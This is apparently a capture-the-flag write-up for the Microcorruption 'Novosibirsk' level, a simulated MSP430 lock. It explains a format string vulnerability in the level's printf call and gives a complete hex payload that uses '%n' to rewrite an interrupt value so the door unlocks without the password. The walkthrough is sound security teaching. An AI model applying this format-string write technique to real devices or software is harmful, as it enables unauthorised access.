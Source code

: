 # Novosibirsk
## TLDR
This program is vulnerable to a format string vulnerability.  
The user has control over the format string to printf called from address 0x4476.  
Use this vulnerability to change the interrupt value at instruction address 0x44c8 from 0x7e00 to 0x7f00.  

## Details
The LockIT Pro c.02  is the first of a new series  of locks. It is
controlled by a  MSP430 microcontroller, and is  the most advanced
MCU-controlled lock available on the  market. The MSP430 is a very
low-power device which allows the LockIT  Pro to run in almost any
environment.

The  LockIT  Pro   contains  a  Bluetooth  chip   allowing  it  to
communiciate with the  LockIT Pro App, allowing the  LockIT Pro to
be inaccessable from the exterior of the building.

There  is no  default  password  on the  LockIT  Pro HSM-2.   Upon
receiving the  LockIT Pro,  a new  password must  be set  by first
connecting the LockitPRO HSM to  output port two, connecting it to
the LockIT Pro App, and entering a new password when prompted, and
then restarting the LockIT Pro using the red button on the back.
    
LockIT Pro Hardware  Security Module 2 stores  the login password,
ensuring users  can not access  the password through  other means.
The LockIT Pro  can send the LockIT Pro HSM-2  a password, and the
HSM will  directly send the  correct unlock message to  the LockIT
Pro Deadbolt  if the password  is correct, otherwise no  action is
taken.
    
This is Hardware  Version C.  It contains  the Bluetooth connector
built in, and two available  ports: the LockIT Pro Deadbolt should
be  connected to  port  1,  and the  LockIT  Pro  HSM-2 should  be
connected to port 2.

This is Software Revision 02. We have improved the security of the
lock by ensuring passwords can not be too long.

## Solution
Start on main.

![main](./screenshots/main.png)

This is a similar situation as [Addis Ababa](https://github.com/networking101/microcorruption/tree/main/Addis%20Ababa). We have a main function that doesn't return but does call printf at address 0x4476 without sanitizing user input. This time we don't have a jump instruction we can overwrite. We will need to find something else to unlock the door.

Take a look at the conditional_unlock_door function.

![conditional_unlock_door](./screenshots/conditional_unlock_door.png)

This function uses the 0x7e interrupt to check the password and unlock the door. If we change the interrupt to 0x7f, we won't need to provide a password. The call to getsn will read 0x1f4 bytes from the user which is plenty.

The stack setup is easy this time. We don't need a "%x" to increment to the start of the user input on the stack. A visual is provided below.

```
       STACK
       ------
0x420a |0c42| $sp
0x420c |c844| address to overwrite (start of user input)
0x420e |4141| junk
        ....
0x428a |4125| junk + "%"
0x428c |6e00| "n" + NULL
       ------
```

This exploit requires 0x81 bytes and will write 0x7f00 to instruction address 0x44c8. The wrong password will be ignored on this interrupt and the door will open.

## Answer
Password: (hex) c8444141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141256e
